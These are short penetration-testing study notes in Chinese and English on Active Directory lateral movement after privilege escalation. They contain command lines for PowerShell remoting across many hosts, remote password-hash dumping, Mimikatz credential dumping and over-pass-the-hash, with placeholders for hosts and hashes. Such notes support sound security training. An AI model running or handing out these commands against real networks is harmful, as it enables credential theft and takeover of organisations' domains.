 特权升级后

- 搜索其他机器上的本地管理访问权限(加载powerview ->查找- localadminaccess)
- 搜索高权限域帐户(域管理)



### Powershell远程

自服务器2012起默认启用

需要在windows桌面机器上由管理员私人启用

port 5985

#### PSSession

##### One-to-One

- interactive
- run in new process
- stateful
- cmdlets
  - New-PSSession
    - `$sess = New-PSSession -ComputerName <computername>`
  - Enter-PSSession
    - `Enter-PSSession -ComputerName <computername>/-Session <session>`

##### One-to-Many

- 在多个远程计算机上执行命令
- `-Credential` to pass username/password
  - `Invoke-Command -ScriptBlock {Get-Process} -Computername (Get-Content <server list>)`
  - `Invoke-Command -FilePath C:\Get-PassHashes.ps1 -ComputerName (Get-Content <server list>)`(受ConstrainedLanguage模式的限制)
  - `Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <server list>)` (在远程机器上执行本地加载的函数，函数被转换为scriptblock并发送到远程机器，但仍然受到ConstrainedLanguage模式的限制)

### Mimikatz

#####  Dump credentials on local machines/remote machines

- `Invoke-Mimikatz -DumpCreds [-Computer @("computer1","computer2")]`

##### Over pass the hash

`Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domainname /ntlm:<ntlmhash> /run:powershell.exe"'`